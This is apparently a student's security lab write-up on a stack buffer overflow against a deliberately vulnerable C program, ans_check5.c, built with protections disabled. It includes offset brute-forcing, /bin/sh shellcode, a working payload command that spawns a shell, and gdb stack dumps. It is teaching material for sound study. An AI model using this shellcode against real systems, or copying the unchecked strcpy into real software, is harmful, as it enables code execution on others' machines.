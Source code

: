 # Lab3 - Buffer overflow attack(turn off ASLR, turn off NX)

## What are we going to do?
This example shows that after calling strcpy function, just exiting the program not returning to the point it was called.
To do that, we need to overwrite the return address exploit the strcpy function.

## Overview of process 
1. Set an address you want to jump. In this example, we just want to find out the address where the program exit immediately. Later on, this address will be the address you want to execute!!
2. Find where the strcpy return address is.(It's a brute force method)
3. And then, run the c program with a parameter containing the address where you want to jump.(We are going to use the address from the Step1)
4. Make a payload which include the execution of shell code!!
5. Place the payload as a parameter of the 'ans_check5'.

## Steps in detail
+ Preparation. Compile the c program below like this. 
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
```
+ gcc option explanation
```
-g : default debug information
-z execstack : marks the stack as executable
-fno-stack-protector : disables stack protection
-o : set output file name
```

+ Step1. Execute below to find out the address we want to jump. As you can see, 0x080485b3 is the address we want to jump!
```
[02/09/22]seed@VM:Byeongchan$ objdump -D ans_check5 | grep -B 1 exit

08048400 <exit@plt>:
--
 80485b3:	6a 00                	push   $0x0
 80485b5:	e8 46 fe ff ff       	call   8048400 <exit@plt>
[02/09/22]seed@VM:Byeongchan$
```

+ Step2. Find out where the return address of strcpy function is! This is where brute force method comes in! Try like below changing the number of print count. If the program ended without printing 'About to exit!', that means return address was corrupted and the program was killed by the system.
```
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*47")
ans_buf is at address 0xbf88027c
Right answer!
About to exit!
Segmentation fault
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*48")
ans_buf is at address 0xbf8fe32c
Segmentation fault

```

+ Step3. Run like below. Python code will create meaning-less characters followed by exit return address. That return address will overwrite the return address of strcpy. If the program exit without 'Segmentation fault', then you found the right place!!!
  + Think about it. Now we know where the return address of strcpy. If we can overwrite return address to a target program address we want to execute, and then we can execute it!
```
ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
```

  + Result. * As you can notice, the program exit with special input parameter overwriting the return address 
```
[02/10/22]seed@VM:Byeongchan$ ans_check5
Usage: ans_check5 <answer>
[02/10/22]seed@VM:Byeongchan$ ans_check5 1
ans_buf is at address 0xbf8d9acc
Wrong answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 forty-two
ans_buf is at address 0xbfb8ad9c
Right answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
ans_buf is at address 0xbf97bbdc
[02/10/22]seed@VM:Byeongchan$ 
```

+ Step4. Make a payload. 
  + ‘PAYLOAD’ = '<Aligned Shellcode>'+<Safe padding>+'<BUFFER_START_ADDRESS>'
  + Shellcode: It's a execution of /bin/sh and hexacoded.
  + Safe padding: Need it to reach the return address location
  + BUFFER_START_ADDRESS: Address of a target program. In this case, the start address of 'Aligned Shellcode'
  + In this practice, we turn off ASLR so we surely know where it the start address of our overwrite.
```
Shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
Safe padding: \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
BUFFER_START_ADDRESS: \x6c\xfd\xff\xbf
``

+ Step5. Place the payload as a parameter of the 'ans_check5'.

  + FIRST, I executed on command line and I got another bash shell!!!!
```
[02/10/22]seed@VM:Byeongchan$ env -i PWD="/home/seed/stack_addresses" SHELL="/bin/bash" SHLVL=0 /home/seed/stack_addresses/ans_check5 $( python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x90'*24 + '\x6c\xfd\xff\xbf'")
ans_buf is at address 0xbffffd6c
$ exit
[02/10/22]seed@VM:Byeongchan$
```
 
  + SECOND, using gdb, investigate the content of the stack!!
  + I can see the corrupted stack content filled with the malicious code and \x90s and return address which points to the malicious code!!
```
(gdb) x/32xw $esp
0xbffffd50:	0xbffffd6c	0xbfffff6a	0xbffffd70	0x080482c7
0xbffffd60:	0x00000000	0xbffffe04	0xb7fba000	0xb7eeed57
0xbffffd70:	0xffffffff	0x0000002f	0xb7e14dc8	0xb7fd6858
0xbffffd80:	0x00000001	0x00008000	0xb7fba000	0x00000000
0xbffffd90:	0x00000002	0x00800000	0xbffffdb8	0x080485cb
0xbffffda0:	0xbfffff6a	0xbffffe64	0xbffffe70	0x08048651
0xbffffdb0:	0xb7fba3dc	0xbffffdd0	0x00000000	0xb7e20637
0xbffffdc0:	0xb7fba000	0xb7fba000	0x00000000	0xb7e20637
(gdb) c
Continuing.

Breakpoint 2, 0x0804855b in check_answer (ans=0xbfffff00 "\031")
    at ans_check5.c:12
12	  strcpy(ans_buf, ans);
(gdb) x/32xw $esp
0xbffffd50:	0xbffffd6c	0xbfffff6a	0xbffffd70	0x080482c7
0xbffffd60:	0x00000000	0xbffffe04	0xb7fba000	0x6850c031
0xbffffd70:	0x68732f2f	0x69622f68	0x50e3896e	0x99e18953
0xbffffd80:	0x80cd0bb0	0x90909090	0x90909090	0x90909090
0xbffffd90:	0x90909090	0x90909090	0x90909090	0xbffffd6c
0xbffffda0:	0xbfffff00	0xbffffe64	0xbffffe70	0x08048651
0xbffffdb0:	0xb7fba3dc	0xbffffdd0	0x00000000	0xb7e20637
0xbffffdc0:	0xb7fba000	0xb7fba000	0x00000000	0xb7e20637
(gdb)
```

# ans_check5.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[32];

  printf("ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}
```



